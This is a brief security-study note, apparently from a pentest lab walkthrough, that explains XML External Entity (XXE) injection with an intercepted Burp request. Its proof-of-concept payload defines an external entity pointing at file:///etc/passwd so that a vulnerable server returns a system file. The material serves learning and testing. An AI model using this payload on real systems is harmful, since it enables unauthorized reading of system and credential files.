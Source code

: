 # XML External Entities

## XXE POC



* **Make a simple request and get the response from BURP :**

![](../../../.gitbook/assets/9da225e09c474fe4bf8cba9b6f7eaf2a.png)

```text
XML = version 1.0
Doctype root element is “thp”
!ELEMENT speciafy any type
!ENTITY set the book to the string “Universe”
Finaly the XML output
```

* Original request :

![](../../../.gitbook/assets/1472eef1a76c4035b9089a4a27973acd.png)

```text
data=<?xml version="1.0" ?>
<!DOCTYPE thp [ <!ELEMENT thp ANY><!ENTITY book SYSTEM "file:///etc/passwd">]><thp>Hack The %26book%3b</thp>
```

![](../../../.gitbook/assets/72506e4d16bf4e8191661e72a8a02fb8.png)

